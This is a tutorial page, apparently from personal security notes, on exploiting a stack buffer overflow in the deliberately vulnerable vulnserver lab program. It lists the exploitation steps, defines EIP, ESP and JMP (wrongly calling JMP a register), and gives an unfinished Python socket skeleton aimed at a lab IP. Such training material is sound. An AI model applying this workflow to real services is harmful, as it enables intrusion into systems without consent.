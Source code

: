 ```yaml
---
title: "Buffer Overflow"
date: 2020-03-06T13:02:27+01:00
draft: false
weight: 60
---
```


[Somewhat based of gh0x0st/Buffer_Overflow](https://github.com/gh0x0st/Buffer_Overflow)

[and bufferoverflows.net](https://bufferoverflows.net/exploiting-vanilla-buffer-overflow-in-vulnserver-trun-command/)

[vulnserver](https://github.com/stephenbradshaw/vulnserver)

## Steps

1. Crash The Application
   1. Spiking
   2. Fuzzing
2. Find EIP Offset
3. Control ESP
4. Identify Bad Characters
5. Find JMP ESP
6. Generate Shell Code
7. Exploit

## Definitions

|                 | |
|-----------------|-|
| EIP             | The Extended Instruction Pointer (EIP) is a register that contains the address of the next instruction for the program or command. |
| ESP             | The Extended Stack Pointer (ESP) is a register that lets you know where on the stack you are and allows you to push data in and out of the application. |
| JMP             | The Jump (JMP) is a register that performs an unconditional jump to transfer the flow of execution by changing the EIP register. |
| \x41, \x42 \x43 | The hexadecimal values for A, B and C. |

## Skeleton Python Script

The easiest way to stay organized when writing these scripts is to use a skeleton file. The below is the going to be your working grounds for the rest of these exercises. I recommend that after each step has been completed, you create a copy of the script and name it at the step you completed. This way, if you get stuck, you can go back to a working step.

```python
#!/usr/bin/python 

import socket,sys

address = '192.168.136.130'
port    = 9999

#offset  = ?

buff    = b""  # empty byte var

try:
	print(f'[+] Sending buffer: {str(len(buff))} bytes')
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((address,port))
	s.recv(1024)			
	s.send(b"%s" % buff) 
```